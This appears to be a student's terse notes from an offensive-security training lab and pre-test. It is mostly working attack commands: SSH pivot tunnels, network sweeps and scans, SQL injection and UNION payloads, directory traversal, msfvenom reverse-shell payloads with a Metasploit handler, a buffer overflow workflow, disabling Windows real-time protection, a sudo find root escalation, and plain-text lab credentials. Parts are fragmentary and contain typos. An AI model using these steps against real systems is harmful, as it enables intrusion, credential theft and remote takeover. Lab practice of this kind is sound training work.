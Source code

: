 KEPE-006-M
jTlU99dknad4D95

Tunnels
exit
ssh -MS /tmp/gray student@10.50.46.234
ssh -S /tmp/gray gray -O forward -D9050
ssh -S /tmp/gray 10 -O forward -L 1700:192.168.28.27:22

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.129,112,113,114 
-p-[all ports] -p[22,23]


SQL Injection
admin' or 1='1
SELECT carid, name, (SELECT SUM(cost) FROM Tires WHERE name = "goodyear") FROM car WHERE name = "ford";
<URL>/uniondemo.php?Selection=2 OR 1=1
<URL>/uniondemo.php?Selection=2 Union SELECT 1,2,3  <!-- Validate NUMBER of columns required -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM Tires <!-- Test pulling VALID data -->
<URL>/uniondemo.php?Selection=2 Union SELECT 1,name,3 FROM car <!-- Test pulling data from ALTERNATE table -->

ssh www-data@0.0.0.0 -p 1460 -L 1400:192.168.150.253:3201 -NT



Windows Buffer Overflow
Break program with tcpcon.py

Open Immunity debuger CPU window and exe as administrator
Attach file in cpu window
Generate Buffer overflow pattern https://wiremask.eu/tools/buffer-overflow-pattern-generator/
Copy EIP to find where the error happens
add DEADCODE to buff in script
mona modules -o
imona jmp -r esp -m "<file>"
find jmp esp instruction memory address
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.46.234 lport=4444 -b
msfconsole -q
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
show options, set lhost, set lport
shut off real time protection in windows-> security -> vires and threat -> mange settings -> real-time protection





Privilege Escalation,P Persistence and Covering your Tracks
sudo -l (list user permissions)
/var/log/ auth.log/secure (login/authen) lastlog(successful login time) btmp(bad login) sulog(SU command) utmp(W command) wtmp(permanent record on user)

find /var/log -type f -mmin -10 2> /dev/null

msfvenom -p linux/x86/exec CMD="sudo cat /.secret/.verysecret.pdb" -b '\x00' -f python




Windows Exploitation
Services
check path
file explorer

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktop\whoami.txt' -f exe > 7z.exe
scp
task scheduler
find task run by system try and try and edit/create files within the directory
view hidden files

msfvenom -p windows/exec CMD='cmd.exe /c "whoami" > C:\Users\UNAME\Desktio\dll.dll' -f dll > name of dll its calling for

ssh -S /tmp/gray pivot -O forward -L 1700:192.168.28.105:2222
ssh comrade@0.0.0.0 -p 1700 -L 40000:192.168.28.27:22
ssh zeus@0.0.0.0 -p 40000 -L 1900:192.168.28.9:3389
ghjcnbnenrf
xfreerdp /u:comrade /v:0.0.0.0:1900 /p:StudentMidwayPassword /size:1920x1000 +clipboard




Pre-Test

5 boxes
ignore .190 and 10.10
Lin-Ops -> 10.50.46.125
2 Root/Admin 

1)10.50.46.125 port 22,80
nmap -v -sT -Pn -T4 -sV 10.50.46.125
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 10.50.46.125 -p 80

cmd injection ;whoami
SQL injection admin' or 1='1
Directory Traversal ../../../../../etc/passwd, /etc/hosts, 

user2 [1] => RntyrfVfNER78 [pass] - EaglesIsARE78
 user3 [1] => Obo4GURRnccyrf [pass] -  Bob4THEEapples
Lee_Roth [1] => anotherpassword4THEages

cat /etc/hosts
ip n
arp -a

ssh -MS /tmp/gray user2@10.50.46.125

sudo -l
find perm command
crontab

for i in {1..254} ;do (ping -c 1 192.168.28.$i | grep "bytes from" &) ;done
192.168.28.172,181

ssh -s /tmp/gray/gray -O forward -D9050

proxychains nmap -v -sT -Pn -T4 -sV 192.168.28.172,181

192.168.28.172 22
192.168.28.181 WebApp 22,80

ssh -S /tmp/gray gray -O forward -L 1200:192.168.28.181:80
nmap -v -sT -Pn -T4 -sV --script=http-enum.nse 192.168.28.181 -p 80

http://0.0.0.0:1200/pick.php?product=7%20OR%201=1
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,2,3;
http://0.0.0.0:1200/pick.php?product=7%20UNION%20select%201,3,2;
                   1             2           3
UNION SELECT table_schema, column_name, table_name from infomation_schema.columns;

http://0.0.0.0:1200/pick.php?product=7 20UNION 20SELECT 20name,user_id,username 20FROM 20siteusers.users
<table_schema>,<column_name>,<table_name> from siteusers.<table>

Aaron ncnffjbeqlCn$$jbeq - apasswordyPa$$word
Lroth anotherpassword4THEages

ssh -S /tmp/gray gray -O forward -L 1331:192.168.172:22
ssh -S /tmp/gray gray -O forward -L 1332:192.168.181:22

Brute force with credentials on both known targets

ssh -MS /tmp/aaron Aaron@0.0.0.0 -p 1331
bash
sudo -l
/usr/bin/find https://gtfobins.github.io/

escalate privs 
sudo find . -exec /bin/sh \; -quit
ssh -S /tmp/gray gray -0 cancel -D9050
ssh -S /tmp/aaron Aaron -O forward -D9050

192.168.28.179:22,139,445, 3389(xfreerdp,rdp), 9999 
proxychains nc 192.168.29.179 9999

ssh -S /tmp /aaron aaron -O forward -L 1440:192.168.28.29:3389
ssh -S /tmp /aaron aaron -O forward -L 1441:192.168.28.29:9999
anotherpassword4THEages
xfreerdp /v:192.168.28.179:1440 /u:Lroth /p:anotherpassword4THEages /size:1920x1000 +clipboard
vim secureserverBuffo.py change port to 1440
generate payload with msfvenom
msfcouse
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 0.0.0.0
exploit
./secureserverBuffo.py

